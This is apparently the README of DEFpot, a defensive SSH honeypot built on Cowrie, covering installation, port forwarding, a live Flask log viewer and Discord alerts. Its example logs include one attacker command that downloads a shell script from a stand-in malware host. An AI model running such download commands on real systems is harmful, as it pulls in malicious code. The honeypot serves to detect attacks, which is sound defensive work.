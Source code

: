 <p align="center">
  <img src="images/logo.png" alt="DEFpot logo" width="160">
</p>

# DEFpot  
“Step in the pot. Join the flock.”

## 🐍 Overview

**DEFpot** is a lightweight SSH honeypot system based on [Cowrie](https://github.com/cowrie/cowrie), designed to monitor and log unauthorized login attempts in real-time via a clean Flask-based web UI.

Attackers are lured into an isolated fake SSH environment where every move they make — from connection, login, to command execution — is logged and streamed live in a browser.

## 🔥 Features

- ✅ Real-time traffic display via Flask + SSE
- ✅ Auto-scrolling log viewer with dark mode
- ✅ Visual feedback on:
  - Port scanning behavior
  - SSH logins (usernames)
  - Commands executed
- ✅ Fully sandboxed via `python3-venv`
- ✅ Systemd service for persistent honeypot runtime

---

## 🧱 Folder Structure

```
DEFpot/
├── cowrie/                # Pre-configured Cowrie honeypot
├── cowrie_web_monitor/    # Flask-based UI
│   ├── app.py             # Main web app
│   ├── templates/
│   │   └── index.html
│   └── static/
│       └── styles.css
├── install.sh             # Auto-setup script
└── README.md              # This file
```

---

## ⚙️ Installation

1. Clone the repository:

```bash
git clone https://github.com/Dark-Avenger-Reborn/DEFpot.git
cd DEFpot
```

2. Run the setup script:

```bash
chmod +x install.sh
./install.sh
```

This will:
- Install system dependencies
- Set up a virtual environment inside `cowrie/`
- Install Cowrie's requirements
- Create a systemd service for Cowrie
- Start Cowrie as a background service

3. Configure your firewall/router to **forward port `22` (SSH)** to **port `2223`** on the host machine.  
   This is required because Cowrie listens on `2223` (by default) instead of directly on `22`.

> 🔒 This prevents Cowrie from needing root to bind to port 22, while still catching incoming SSH traffic.

---

## 🚀 Running the Web UI

In a second terminal:

```bash
cd cowrie_web_monitor
python3 app.py
```

Then visit:

```
http://localhost:8080
```

You'll see live attack logs stream in as they happen.

---

## 🕵️‍♀️ What You’ll See

Example logs:

```
192.168.0.5 is scanning ports  
192.168.0.5 logged in as root via SSH  
192.168.0.5 ran: wget http://malware.site/shell.sh
```

---

## 📣 Optional: Discord Webhook Alerts

To enable alerts:

1. Create a Discord webhook.
2. Save the URL in a file named `webhook_url.txt` one directory above the web UI:

```
DEFpot/
├── webhook_url.txt      # Place it here
├── cowrie/
├── cowrie_web_monitor/
```

> ❗ If the file is missing or the webhook is broken, the system **fails silently** — no crashes.

---

## 🔁 Required for Full Operation

✅ Cowrie must be running as a `systemd` service  
✅ `app.py` must be running to serve the web UI  
✅ Port 22 must be redirected to Cowrie’s listening port (default: 2223)

---

## 💬 Tips

- Want to run `app.py` as a service? Consider `systemd` or `supervisor`.
- Use `ufw` or `iptables` to control and log forwarded traffic.
- Tail the raw log manually:  
  `tail -f cowrie/var/log/cowrie/cowrie.log`

---

## 📜 License

MIT — see [LICENSE](LICENSE)

---

**DEFpot**  
“Step in the pot. Join the flock.”